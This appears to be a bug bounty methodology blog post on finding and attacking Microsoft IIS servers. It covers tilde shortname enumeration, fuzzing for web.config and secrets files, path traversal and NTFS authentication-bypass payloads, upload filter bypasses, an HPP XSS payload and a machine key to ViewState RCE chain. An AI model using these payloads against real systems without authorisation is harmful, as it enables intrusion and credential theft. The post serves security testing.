

A friend of mine once told me: 
> If you see an IIS blue screen, don't stop there; there must be something.

Yep, he was right. That IIS splash page is not a dead end. It's a welcome mat. 

Some pentesting see it and move on to the next asset. That's a mistake. Behind that blue window logo sits one of the most consistently misconfigured web servers on the www, and it's practically begging you to look deeper.

Let me walk you through how I approach IIS targets during bug bounty.

---

## psst, psst, iis servers, where are you? 

Here are some techniques I use to find IIS servers.

### shodan

Before you even touch a target, go see what Shodan already knows:

```shell
ssl:"target.com" http.title:"IIS"
```

Or get creative:

```shell
ssl.cert.subject.CN:"target.com" http.title:"IIS"
```

This surfaces IIS boxes tied to your target's SSL certificates. You'll sometimes find staging servers, forgotten admin panels, and internal tools that nobody realized were internet-facing.

### google dorking

[...]

### active tech fingerprinting

The easiest way to know you're staring at IIS is the response headers. Hit it with a raw request:

```bash
nc -v target.com 80
```

Or if it's TLS:

```bash
openssl s_client -connect target.com:443
```

What you're looking for something like this in the response headers:

```bash
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
```

But probably you want to do this **at scale**, just keep calm and use `httpx` (or `nuclei`):

```bash
httpx -l targets.txt -td | grep IIS | tee iis-targets.txt
```

## ok, I found an IIS server. now what?

First off, let's confirm what we're dealing with and grab as much information as the server is willing to give away for free.

### internal ip disclosure

Here's a freebie most people miss. Send an HTTP/1.0 request to certain IIS setups (especially Exchange or OWA fronts) and the server will sometimes hand you an internal IP in the `Location` header:

```bash
curl -v --http1.0 http://example.com
```

You might get back something like:

```bash
HTTP/1.1 302 Moved Temporarily
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016
```

That internal IP and that `X-FEServer` header just told you the internal hostname of the Exchange server. File that away. It's information disclosure that we could leverage in the following steps.

## pwn time

Enough recon by now, let's get to the juicy parts.

### nuclei templates: automate the boring parts

Once you've got your list of IIS targets, blast them with nuclei using relevant tags:

```bash
nuclei -l iis-targets.txt \ 
    -tags microsoft,windows,asp,aspx,iis,azure,config,exposure -silent
```

I like to fire this in the background while I'm doing manual recon. 

### the httpapi 2.0 dead end that isn't

You'll hit a lot of IIS boxes that respond with a generic `HTTPAPI 2.0 404` error. Most people see this and think "nothing here." Wrong.

What this actually means is the server didn't receive the right domain name in the `Host` header. The IIS instance is there, it's running something, but it's bound to a specific virtual host. You need to figure out which one.

Two approaches:

First, check the SSL certificate. The subject or SAN field often contains the hostname you need. Just hit it in a browser and inspect the cert.

Second, if the cert doesn't help, you brute-force virtual hosts. Tools like `ffuf` with a `Host` header wordlist work well here:

```bash
ffuf -u https://TARGET_IP/ -H "Host: FUZZ.target.com" -w vhosts.txt -fs 0
```

When you land on the right hostname, the server suddenly wakes up and serves you a real application instead of that useless 404.

<!-- IMAGE: Screenshot showing the difference between a generic HTTPAPI 2.0 404 response and a valid application response after the correct Host header is provided -->

### iis tilde enumeration: the gift that keeps giving

This is, without exaggeration, one of the most underrated techniques in bug bounty. IIS has a legacy behavior inherited from the old DOS 8.3 filename convention. By sending specially crafted requests, you can enumerate the short names of files and directories on the server — even if directory listing is disabled.

The tool you want is [shortscan](https://github.com/bitquark/shortscan):

```bash
shortscan https://target.com/ -F -p 1
```

Note `-F -p 1` parameters tell shortscan to fuzz the directories and enumerate the shortnames. 

Another tool you can use is [burp's IIS Tilde Enumeration Scanner](https://portswigger.net/bappstore/523ae48da61745aaa520ef689e75033b). 

This will spit out shortname fragments like:

```shell
File: WEB~1.CON
File: GLOBAL~1.ASA
File: SITEBA~1.ZIP
Dir:  ADMIN~1
```

Now here's the thing — `WEB~1.CON` is obviously `web.config`. But what's `SITEBA~1.ZIP`? Is it `sitebackup.zip`? `sitebase.zip`? `sitebatch.zip`?

#### using llms

[...]

```shell
Return only a list of words, separated by newlines, and nothing else. Ensure that the words contain only alphanumeric characters.
Make a list of guesses, for what the rest of the word could be from this snippet. Ensure that the snippet is a substring of your guess. 
Make the list as extensive as possible.
Snippet: {shortname}
```


#### github dorks to resolve shortnames

[...]

#### using bigquery to resolve shortnames

This is where it gets interesting. Assetnote published research on using Google BigQuery's GitHub dataset to resolve these shortname fragments into real filenames. The idea is simple: search the entire GitHub codebase for filenames that match the pattern.

If your shortname scan returned `SITEBA~1.ZIP`, you run this in BigQuery:

```sql
SELECT DISTINCT path
FROM `bigquery-public-data.github_repos.files`
WHERE REGEXP_CONTAINS(path, r'(?i)(\/siteba[a-z0-9]+\.zip|^siteba[a-z0-9]+\.zip)')
LIMIT 1000
```

You'll get back real filenames from real projects: `sitebackup.zip`, `sitebase.zip`, and so on. Now you have a focused wordlist instead of blindly guessing.

A word of caution: BigQuery charges by data scanned. Set a quota at `console.cloud.google.com/iam-admin/quotas` before you accidentally run a $120 query. Ask me how I know. (I don't. But Assetnote's Shubham Shah does.)

### fuzzing: the iis-specific wordlist matters

Generic wordlists are fine for generic servers. IIS is not generic. You need to fuzz for things that only exist in the IIS/.NET ecosystem.

#### high-value targets to fuzz for

```shell
/web.config
/web.config.bak
/web.config.old
/web.config.txt
/global.asax
/trace.axd
/elmah.axd
/connectionstrings.config
/appsettings.json
/appsettings.Development.json
/appsettings.Staging.json
/appsettings.Production.json
/appsettings.Local.json
/secrets.json
/WS_FTP.LOG
/_vti_pvt/service.cnf
```

`trace.axd` is the ASP.NET trace viewer. If it's enabled, you get full request/response logs including headers, cookies, and sometimes credentials. `elmah.axd` is the error log viewer — same deal. These are essentially debug endpoints that developers forget to turn off.

And always fuzz with IIS-specific extensions:

```shell
.asp,.aspx,.ashx,.asmx,.wsdl,.wadl,.config,.xml,.zip,.txt,.dll,.json
```

A practical ffuf command:

```bash
ffuf -u https://target.com/FUZZ -w iis-wordlist.txt \
     -e .asp,.aspx,.ashx,.asmx,.config,.json,.xml,.zip,.bak,.txt \
     -mc 200,301,302,403 -fs 0
```

### web.config: the keys to the kingdom

If you can read `web.config` through a path traversal, a misconfigured backup file, or a shortname-assisted discovery, you've potentially won the entire engagement.

Here's why: IIS web.config files often contain machine keys. These are the cryptographic keys used to sign and encrypt ViewState. If you have the machine keys, you can forge a malicious serialized ViewState payload and achieve remote code execution via deserialization.

The path from web.config to RCE is:



This is not theoretical. This is one of the most reliable IIS RCE chains in existence. Tools like [ysoserial.net](https://github.com/pwntester/ysoserial.net) will generate the payload for you once you have the keys.

#### path traversal to web.config

If you find any kind of file download or file read parameter, immediately try:

```shell
GET /download?id=../../web.config
GET /download?id=..%2f..%2fweb.config
GET /download?id=..%2f..%2fbin/WebApplication1.dll
```

That last one is interesting too — downloading DLLs from the `bin` directory lets you decompile the application with tools like JetBrains dotPeek and read the actual source code.


### reverse proxy path confusion

When IIS sits behind a reverse proxy (or acts as one), you can sometimes exploit path normalization differences to access paths you shouldn't.

The classic trick: if `/admin/` returns 403 or redirects you, try:

```shell
/anything/..%2fadmin/
```

The proxy sees `/anything/..%2fadmin/` and thinks you're requesting `/anything/`. It forwards the request. But IIS decodes `%2f` to `/`, resolves the path traversal, and serves `/admin/`. You just bypassed the access control.


### authentication bypass via ntfs hacks

IIS 7.5 and similar versions have a fun behavior with NTFS alternate data streams and index allocation. You can sometimes bypass basic authentication with paths like:

```shell
/admin::$INDEX_ALLOCATION/admin.php
/admin:$i30:$INDEX_ALLOCATION/admin.php
```

These exploit how IIS resolves NTFS metadata streams. The authentication module sees a path it doesn't recognize as protected, but the file system resolves it to the actual directory anyway.


### file upload tricks

If you find an upload function on an IIS target, the developers almost certainly blacklisted `.aspx` and `.asp`. But IIS serves a surprising number of extensions as `text/html` by default, which means stored XSS through file upload.

Extensions that render as HTML (basic XSS vector works):

```shell
.cer
.hxt
.htm
```

Extensions that support XML-based XSS vectors:

```shell
.dtd, .mno, .vml, .xsl, .xht, .svg, .xml, .xsd,
.xsf, .svgz, .xslt, .wsdl, .xhtml
```

And IIS has a quirk with trailing dots in filenames. If the upload filter blocks `shell.aspx`, try:

```shell
shell.aspx.
shell.aspx..
shell.aspx...
```

IIS will strip the trailing dots and serve the file normally. This has been a known bypass for years and people still don't filter for it.

For server-side includes, these extensions are worth trying:

```shell
.stm, .shtm, .shtml
```

## bypassing wafs via hpp

One last trick. If there's a WAF in front of the IIS target blocking your payloads, HTTP Parameter Pollution (HPP) can sometimes split your payload across duplicate parameters:

```shell
https://target.com/page?param=<svg/&param=onload=alert(1)>
```

IIS and ASP.NET concatenate duplicate parameter values with a comma by default, which can reassemble your payload on the other side of the WAF.

## bottom line

The beauty of IIS in bug bounty is that the attack surface is well-understood but consistently under-tested. Everyone's off chasing the latest JavaScript framework vulnerability while these Windows boxes sit there, leaking internal IPs, serving up their own config files, and running with shortname enumeration wide open.

Don't skip the blue screen. Dig in. That's where the money is.

